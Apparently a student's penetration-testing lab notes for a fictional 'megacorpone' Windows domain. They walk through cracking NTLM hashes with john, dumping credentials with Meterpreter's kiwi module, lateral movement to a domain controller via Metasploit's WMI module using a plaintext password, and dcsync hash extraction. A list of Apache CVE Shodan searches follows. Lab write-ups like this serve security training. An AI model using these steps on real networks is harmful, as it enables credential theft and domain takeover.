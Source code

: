 ``` bash
nano hashes.txt
	#paste username:ntlm hashes
	#bbanner and Administrator only

john --format=NT hashes.txt
john hashes.txt --show
```
![[Pasted image 20221128185337.png]]
_gained a meterpreter shell and migrated to a stable and system process_
![[Pasted image 20221128190225.png]]
![[Pasted image 20221128190242.png]]
using the kiwi module (mimikatz) we were able to extract the hash for pparker and luckily for us also pparker's plaintext password.

#### Activity 2
First, ensure you're working from a SYSTEM level shell on the Windows10 machine, then use the 'exploit/windows/local/wmi' module.
	`use exploit/windows/local/wmi`
Next, set the following parameters:
-   `set RHOSTS 172.22.117.10`
-   `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
-   `set SMBDomain megacorpone`
-   `set SMBUser bbanner`
-   `set SMBPass Winter2021`
-   `set LHOST 172.22.117.100`
Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.
![[Pasted image 20221128193126.png]]

#### Activity 3
1.  In Meterpreter, enter a shell then view the users on the machine via the `net` command.
    
2.  Exit the command shell, then load `kiwi` and perform `dcsync_ntlm` in Meterpreter for each of the users. Run the command `dcsync_ntlm` to see the usage.
    
3.  Take each NTLM hash and place them in a text file. Using `john`, crack the hashes in the file.




[CVE-2019-0196](https://www.shodan.io/search?query=vuln%3ACVE-2019-0196)
[CVE-2020-1934](https://www.shodan.io/search?query=vuln%3ACVE-2020-1934)
[CVE-2021-34798](https://www.shodan.io/search?query=vuln%3ACVE-2021-34798)
[CVE-2020-35452](https://www.shodan.io/search?query=vuln%3ACVE-2020-35452)
[CVE-2022-29404](https://www.shodan.io/search?query=vuln%3ACVE-2022-29404)
[CVE-2022-22721](https://www.shodan.io/search?query=vuln%3ACVE-2022-22721)
[CVE-2019-0211](https://www.shodan.io/search?query=vuln%3ACVE-2019-0211)
[CVE-2022-28330](https://www.shodan.io/search?query=vuln%3ACVE-2022-28330)
[CVE-2020-11993](https://www.shodan.io/search?query=vuln%3ACVE-2020-11993)
[CVE-2019-10081](https://www.shodan.io/search?query=vuln%3ACVE-2019-10081)
[CVE-2019-0217](https://www.shodan.io/search?query=vuln%3ACVE-2019-0217)
[CVE-2019-0197](https://www.shodan.io/search?query=vuln%3ACVE-2019-0197)
[CVE-2019-0215](https://www.shodan.io/search?query=vuln%3ACVE-2019-0215)
[CVE-2021-33193](https://www.shodan.io/search?query=vuln%3ACVE-2021-33193)
[CVE-2022-22720](https://www.shodan.io/search?query=vuln%3ACVE-2022-22720)
[CVE-2019-10092](https://www.shodan.io/search?query=vuln%3ACVE-2019-10092)
[CVE-2019-17567](https://www.shodan.io/search?query=vuln%3ACVE-2019-17567)
[CVE-2019-10097](https://www.shodan.io/search?query=vuln%3ACVE-2019-10097)
[CVE-2022-31813](https://www.shodan.io/search?query=vuln%3ACVE-2022-31813)
[CVE-2019-10098](https://www.shodan.io/search?query=vuln%3ACVE-2019-10098)
[CVE-2021-40438](https://www.shodan.io/search?query=vuln%3ACVE-2021-40438)
[CVE-2021-36160](https://www.shodan.io/search?query=vuln%3ACVE-2021-36160)
[CVE-2022-23943](https://www.shodan.io/search?query=vuln%3ACVE-2022-23943)